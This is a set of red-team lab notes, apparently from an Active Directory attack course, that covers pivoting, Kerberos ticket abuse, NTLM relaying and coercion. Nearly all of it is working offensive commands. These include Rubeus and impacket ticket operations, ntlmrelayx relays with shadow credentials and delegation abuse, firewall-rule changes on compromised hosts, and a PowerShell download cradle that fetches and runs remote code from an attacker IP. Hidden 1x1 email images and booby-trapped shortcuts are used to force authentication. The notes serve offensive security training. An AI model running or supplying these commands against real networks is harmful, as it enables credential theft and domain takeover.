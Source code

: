 # Pivoting Notes

**SOCKS**

start a SOCKS4a proxy, second is SOCKS5
```
socks 1080
socks 1080 socks5 disableNoAuth myUser myPassword enableLogging
```

**Linux Tools**

**proxychains**

```
sudo vim /etc/proxychains.conf
  socks4 127.0.0.1 9050
  socks5 127.0.0.1 1080 myUser myPassword
proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
proxychains wmiexec.py DEV/jking@10.10.122.30
```

**Windows Tools**
[Proxifier](https://www.proxifier.com/)

**pivoting with kerberos**

```
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
export KRB5CCNAME=jking.ccache
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```

using a TGT delegation trick to get a usable TGT for bfarmer from a non-elevated session
1. delegate TGT to get a TGT for a non-elevated session
2. base64 decode the ticket and write it as a <user>.kirbi
3. then convert with ticketConverter.py
4. now we can interact with this TGT

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > bfarmer.kirbi
ticketConverter.py bfarmer.kirbi bfarmer.ccache
proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
```

Can do this with windows attacker machines as well
1. first step is to add the *.<domain> to your proxifier rules
2. launch an instance of cmd.exe or powershell.exe
3. If we want to access the SQL-2 service through HeidiSQL then we need a service ticket for the MSSQLSvc service.  Let's use the TGT of bfarmer to do that (yes, requesting tickets through the proxy works as well).

```
runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
klist
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt
C:\Tools\HeidiSQL\heidisql.exe
```

**Browsers**

Using things like FoxyProxy

**Reverse Port Forwards**

allows a machine to redirect inbound traffic on a specific port to another IP and port

```
rportfwd <inbound port> <IP to send to> <port to send to>
```

In some cases you might need to make rules to allow this traffic in, easy to do that like so
```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

can delete with
```
powershell Remove-NetFirewallRule -DisplayName "8080-In"
```

**NTLM Relaying**

being a mitm of the ntlm authentication and passing the request to the target 
Tools:
[PortBender](https://github.com/praetorian-inc/PortBender)

Steps
1. will need a SYSTEM beacon on a machine you are doing the capture of SMB traffic on
2. allow those ports inbound on the firewall
3. start two reverse port forwards - one for SMB capture and another for a powershell download cradle
4. then setup a SOCKS proxy that ntlmrelayx can use to send relay responses back to the network
5. then run ntlmrelayx.py
6. upload the PortBender driver in the default windows driver location
7. run portbender to redirect traffic from 445 to port 8445
8. coerce a user to auth and you will be able to capture that traffic
9. link the new beacon

```
on beacon:
powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8445 localhost 445
rportfwd 8080 localhost 80
socks 1080
on attacker machine:
sudo proxychains ntlmrelayx.py -t smb://<target IP> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc <download cradle pointing at the /b SMB payload>'
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
help PortBender
PortBender redirect 445 8445
**coerce victim and wait**
link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

Download cradle example before base64
```
iex (new-object net.webclient).downloadstring("http://<IP>:<port>/<payload uri>")
```

**Forcing NTLM Auth**

### 1x1 Images in Emails
having this in an email will trigger an NTLM auth attempt when opened in email clients like Outlook
```
<img src="\\<relayer IP>\test.ico" height="1" width="1" />
```

### Windows Shortcuts

Putting a windows shortcut on something like a public share for others to click
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.123.102\test.ico"
$shortcut.Save()
```

Additional Tools: [SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) [PetitPotam](https://github.com/topotam/PetitPotam) 


**Relaying WebDAV**
Tools: [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus)

steps:
1. identify webDAV on remote client
2. setup relaying
3. setup firewall rules
4. coerce the service to auth to a malicious WebDAV server we control with relaying on it
5. then perform S4U2Proxt to req service tickets 

check for WebDAV
The webclient exposes a named pipe called DAV RPC SERVICE, using the GetWebDAVStatus Tool
```
sc qc WebClient
inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2
```

setup relaying on attacker
```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --delegate-access -smb2support --http-port 8888
```
cont.., after the sharpsystemtriggers the a new machine account is created in the output of the relay and we use that to impersonate another user
```
powershell New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe wkstn-1 wkstn-2@8888/pwned
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:dev.cyberbotic.io /user:<machine account> /password:'<password created by relay>'
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:<aes from above> /nowrap
```


**Shadow credentials**

This option will automatically dump a cert file for you
1. relay with --shadow-credentials
2. convert to ccache format for impacket or base64 for rubeus
3. req TGT which can then be used for S4U2Self

```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888
cat <cert.pfx> | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIII3Q[...snip...]YFLqI= /password:wBaP2YhsR7RgY0MZ6jwk /nowrap
```
